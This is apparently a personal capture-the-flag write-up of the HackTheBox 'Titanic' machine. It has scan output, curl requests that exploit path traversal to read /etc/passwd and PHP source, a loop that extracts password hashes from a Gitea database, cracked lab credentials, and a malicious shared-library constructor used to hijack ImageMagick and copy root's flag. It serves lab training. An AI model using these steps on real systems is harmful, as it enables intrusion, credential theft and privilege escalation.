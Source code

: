 ```yaml
---
title: "Titanic"
date: 2025-04-12
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb", "titanic"]
---
```


# Titanic

# Summary

# Todo 
- [ ] 
# Notes

# Enumeration
## Nmap
TCP
```sh
Scanned at 2025-02-19 09:37:11 AEDT for 30s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 (94%), Linux 5.0 - 5.5 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (If you know what OS is running on it, see 
```
## HTTP
![[/assets/images/titanic1.png]]
![[/assets/images/titanic3.png]]
standard
![[/assets/images/titanic4.png]]

deluxe
![[/assets/images/titanic6.png]]

![[/assets/images/titanic7.png]]

```sh
# unecoded
curl http://titanic.htb/download?ticket=php://filter/resource=admin.php

# encoded
curl http://titanic.htb/download?ticket=php://filter/convert.base64-encode/resource=admin.php

curl http://titanic.htb/download?ticket=ad6afd0b-171b-480a-b230-28970a343179/etc/passwd
```

![[/assets/images/titanic10.png]]


![[/assets/images/titanic5.png]]

![[/assets/images/titanic8.png]]

![[/assets/images/titanic18.png]]

![[/assets/images/titanic2.png]]


![[/assets/images/titanic9.png]]

```sh
# sub-domain fuzzing (vhost)
ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![[/assets/images/titanic11.png]]

dev.titanic.htb
![[/assets/images/titanic12.png]]

![[/assets/images/titanic13.png]]
`admin:admin` `admin:password` did not work.
sign up

![[/assets/images/titanic14.png]]

![[/assets/images/titanic15.png]]

![[/assets/images/titanic16.png]]
![[/assets/images/titanic17.png]]

![[/assets/images/titanic19.png]]

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html

```sh
/data/gitea/gitea.db
```

![[/assets/images/titanic21.png]]

https://0xdf.gitlab.io/2024/12/14/htb-compiled.html
get user hases 
```sh
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

![[/assets/images/titanic22.png]]
![[/assets/images/titanic23.png]]

```sh
# creds
developer : 25282528
```
## SMB

# Foothold
![[/assets/images/titanic24.png]]

# Privilege Escalation
## Enumeration
![[/assets/images/titanic25.png]]

![[/assets/images/titanic26.png]]
-> Writable path abuse 

![[/assets/images/titanic27.png]]
## Attempts
https://www.cybersecurity-help.cz/vdb/SB2024072801

![[/assets/images/titanic28.png]]

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

### Read the flag
```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

![[/assets/images/titanic29.png]]

### Get a shell
![[Pasted image 20250219153212.png]]
